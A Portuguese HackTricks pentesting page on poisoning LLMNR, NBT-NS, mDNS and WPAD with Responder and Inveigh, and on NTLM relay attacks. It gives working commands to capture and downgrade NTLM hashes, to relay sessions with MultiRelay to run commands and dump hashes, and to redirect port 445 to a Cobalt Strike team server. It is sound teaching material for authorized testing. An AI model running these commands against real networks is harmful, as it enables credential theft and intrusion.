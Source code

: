 # Spoofing LLMNR, NBT-NS, mDNS/DNS e WPAD e Ataques de Relevo

{% hint style="success" %}
Aprenda e pratique Hacking na AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Treinamento HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking no GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Treinamento HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoie o HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Protocolos de Rede

### Protocolos de Resolução de Host Local
- **LLMNR, NBT-NS e mDNS**:
- A Microsoft e outros sistemas operacionais utilizam LLMNR e NBT-NS para resolução de nomes locais quando o DNS falha. Da mesma forma, os sistemas Apple e Linux utilizam mDNS.
- Esses protocolos são suscetíveis a interceptação e spoofing devido à sua natureza de difusão não autenticada sobre UDP.
- O [Responder](https://github.com/lgandx/Responder) pode ser usado para se passar por serviços enviando respostas falsificadas para hosts que consultam esses protocolos.
- Mais informações sobre a impersonação de serviços usando o Responder podem ser encontradas [aqui](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md).

### Protocolo de Descoberta Automática de Proxy da Web (WPAD)
- O WPAD permite que os navegadores descubram automaticamente as configurações de proxy.
- A descoberta é facilitada via DHCP, DNS, ou fallback para LLMNR e NBT-NS se o DNS falhar.
- O Responder pode automatizar ataques WPAD, direcionando clientes para servidores WPAD maliciosos.

### Responder para Envenenamento de Protocolo
- O **Responder** é uma ferramenta usada para envenenar consultas LLMNR, NBT-NS e mDNS, respondendo seletivamente com base nos tipos de consulta, visando principalmente os serviços SMB.
- Ele vem pré-instalado no Kali Linux, configurável em `/etc/responder/Responder.conf`.
- O Responder exibe hashes capturados na tela e os salva no diretório `/usr/share/responder/logs`.
- Ele suporta tanto IPv4 quanto IPv6.
- A versão do Windows do Responder está disponível [aqui](https://github.com/lgandx/Responder-Windows).

#### Executando o Responder
- Para executar o Responder com as configurações padrão: `responder -I <Interface>`
- Para sondagem mais agressiva (com potenciais efeitos colaterais): `responder -I <Interface> -P -r -v`
- Técnicas para capturar desafios/respostas NTLMv1 para facilitar a quebra: `responder -I <Interface> --lm --disable-ess`
- A impersonação do WPAD pode ser ativada com: `responder -I <Interface> --wpad`
- As solicitações NetBIOS podem ser resolvidas para o IP do atacante, e um proxy de autenticação pode ser configurado: `responder.py -I <interface> -Pv`

### Envenenamento DHCP com Responder
- Falsificar respostas DHCP pode envenenar permanentemente as informações de roteamento de uma vítima, oferecendo uma alternativa mais furtiva ao envenenamento ARP.
- Requer conhecimento preciso da configuração da rede alvo.
- Executando o ataque: `./Responder.py -I eth0 -Pdv`
- Este método pode capturar efetivamente hashes NTLMv1/2, mas requer manuseio cuidadoso para evitar a interrupção da rede.

### Capturando Credenciais com o Responder
- O Responder se passará por serviços usando os protocolos mencionados acima, capturando credenciais (geralmente NTLMv2 Challenge/Response) quando um usuário tenta autenticar-se contra os serviços falsificados.
- Tentativas podem ser feitas para rebaixar para NetNTLMv1 ou desativar ESS para facilitar a quebra de credenciais.

É crucial observar que a aplicação dessas técnicas deve ser feita de forma legal e ética, garantindo autorização adequada e evitando interrupções ou acessos não autorizados.

## Inveigh

Inveigh é uma ferramenta para testadores de penetração e equipes vermelhas, projetada para sistemas Windows. Oferece funcionalidades semelhantes ao Responder, realizando spoofing e ataques de homem-no-meio. A ferramenta evoluiu de um script PowerShell para um binário C#, com [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) e [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) como as principais versões. Parâmetros e instruções detalhadas podem ser encontrados na [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters).

Inveigh pode ser operado através do PowerShell:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Ou executado como um binário C#:
```bash
Inveigh.exe
```
### Ataque de Relevo NTLM

Este ataque aproveita sessões de autenticação SMB para acessar uma máquina alvo, concedendo um shell de sistema se bem-sucedido. Pré-requisitos principais incluem:
- O usuário autenticado deve ter acesso de Administrador Local no host de retransmissão.
- A assinatura SMB deve estar desativada.

#### Encaminhamento e Tunelamento da Porta 445

Em cenários onde a introdução direta na rede não é viável, o tráfego na porta 445 precisa ser encaminhado e tunelado. Ferramentas como [**PortBender**](https://github.com/praetorian-inc/PortBender) ajudam a redirecionar o tráfego da porta 445 para outra porta, o que é essencial quando o acesso de administrador local está disponível para carregamento de driver.

Configuração e operação do PortBender no Cobalt Strike:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### Outras Ferramentas para Ataque de Revezamento NTLM

- **Metasploit**: Configurado com proxies, detalhes do host local e remoto.
- **smbrelayx**: Um script Python para relé de sessões SMB e execução de comandos ou implantação de backdoors.
- **MultiRelay**: Uma ferramenta da suíte Responder para relé de usuários específicos ou todos os usuários, executar comandos ou extrair hashes.

Cada ferramenta pode ser configurada para operar através de um proxy SOCKS, se necessário, permitindo ataques mesmo com acesso de rede indireto.

### Operação do MultiRelay

O MultiRelay é executado a partir do diretório _**/usr/share/responder/tools**_, visando IPs ou usuários específicos.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Forçar Logins NTLM

No Windows, **você pode ser capaz de forçar algumas contas privilegiadas a se autenticarem em máquinas arbitrárias**. Leia a seguinte página para aprender como:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Referências
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Verifique os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
